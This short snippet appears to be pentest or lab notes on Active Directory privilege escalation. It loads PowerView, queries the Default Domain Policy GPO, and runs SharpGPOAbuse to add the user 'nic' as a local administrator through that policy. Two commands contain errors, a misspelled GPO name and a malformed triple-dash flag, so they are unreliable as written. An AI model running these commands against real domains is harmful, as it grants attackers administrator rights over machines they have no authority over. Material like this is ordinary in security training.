 First, start powerview
```
./PowerView.ps1
```
Check for Default Domain Policy
```
Get-GPO -Name "Defualt Domain Policy"
```
Using SharpGPOAbuse:
```
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount nic ---GPOName "Default Domain Policy"
```